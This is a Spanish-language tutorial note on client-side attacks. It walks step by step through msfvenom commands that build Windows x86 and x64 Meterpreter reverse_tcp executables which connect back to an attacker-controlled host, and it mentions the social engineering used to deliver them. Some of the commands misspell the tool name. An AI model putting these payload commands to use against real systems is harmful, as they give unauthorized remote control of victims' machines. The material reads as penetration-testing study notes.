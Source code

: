Un ataque del lado del cliente es un vector de ataque que involucra la ejecucion de un payload (carga util) malicioso en el objetivo que en consecuencia conecta al atacante cuando es ejecutado.
Estos tipos de ataques utilizan varias tecnicas de ingenieria social como la creacion de documentos malicioso o ejecutables portables (PEs).
Los client-side attacks toman ventaja de la vulnerabilidad humana.


# Msfvenom
Msfvenom es una utilidad de linea de comandos que puede ser utilizada para codificar MSF payloads para varios sistemas operativos como servidores web.
Msfvenom es una combinacion de dos utilidades, msfpayload y msfencode.
Podemos utililzar msfvenom para generar payloads malicisos de meterpreter que pueden ser transferidos al sistema objetivo. Una vez ejecutado, el payload se va a conectar con nuestro handler dandonos acceso remoto al sistema objetivo.

Podemos listar los payloads disponibles en msfvenom con con comando:
	msfvenom --list payloads
Para los payloads de meterpreter es necesario especificar correctamente el sistema operativo objetivo (windows o linux) y su arquitectura (32 o 64 bits).

Si quisiera generar un payload para una arquitectura de 32bits lo hago de la siguiente manera:
	msfvenom -a
		El -a es para especificar la arquitectura, por ejemplo si fuera de 32bits seria msfvenom -a x86
	msfvenom -a x86 -p
		El -p es para especificar el payload a utilizar.
	msfvenom -a x86 -p windows/meterpreter/reverse_tcp
		Una vez especificado el payload que queremos ejecutar, debemos especificar la informacion de la maquina atacante.
	msfvenoom -a x86 -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PUERTO
		Una vez que colocamos la informacion de la maquina atacante, debemos especificar el formato del payload, para windows el ejecutable sera un .exe esto lo hacemos con un -f (formato).
	msfvenoom -a x86 -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PUERTO -f exe
		Ahora debemos especificar donde queremos colocar ese payload y su nombre. Para ello utilizaremos la redireccion ">".
	msfvenoom -a x86 -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PUERTO -f exe > /home/directorio/payloadx32.exe
Si qusiera crear basicamente el mismo payload pero para una arquitectura de 64bits seria muy similar al anterior:
	msfvenoom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PUERTO -f exe > /home/directorio/payloadx64.exe

Hay una gran cantidad de formatos disponibles, para listarlos puedo usar el comando:
	msfvenom --list formats
